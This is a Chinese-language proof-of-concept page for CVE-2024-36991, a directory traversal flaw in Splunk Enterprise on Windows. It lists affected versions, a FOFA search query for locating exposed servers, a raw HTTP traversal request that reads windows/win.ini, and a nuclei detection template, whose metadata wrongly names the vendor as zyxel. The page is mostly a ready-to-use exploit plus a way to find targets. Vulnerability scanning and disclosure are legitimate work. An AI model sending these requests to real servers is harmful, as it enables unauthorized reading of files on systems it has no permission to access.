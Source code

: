 ## Splunk-Enterprise任意文件读取漏洞

Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。

## 影响范围

9.2.0 <= Splunk Enterprise < 9.2.2

9.1.0 <= Splunk Enterprise < 9.1.5

9.0.0 <= Splunk Enterprise < 9.0.10

## fofa

```
app="splunk-Enterprise"
```

## poc

```yaml
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS x86_64 14541.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
```

## **nuclei poc**

```yaml
id: CVE-2024-36991

info:
  name: Splunk Enterprise for Windows 任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024年7月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows平台 modules/messaging 目录遍历漏洞。漏洞仅影响 Windows平台上的 Splunk Enterprise，官方已发布安全更新，建议升级至最新版本。
  reference:
    - https://advisory.splunk.com/advisories/SVD-2024-0711
    - https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
  classification:
    cvss-score: 7.1
    cve-id: CVE-2024-36991
  metadata:
    verified: true
    max-request: 1
    vendor: zyxel
    product: Splunk Enterprise
    fofa-query: app="splunk-Enterprise"
  tags: cve,cve2024,splunk-Enterpris

http:
  - raw:
      - |
        GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../windows/win.ini HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(body, '; for 16-bit app support')"
        condition: and
```

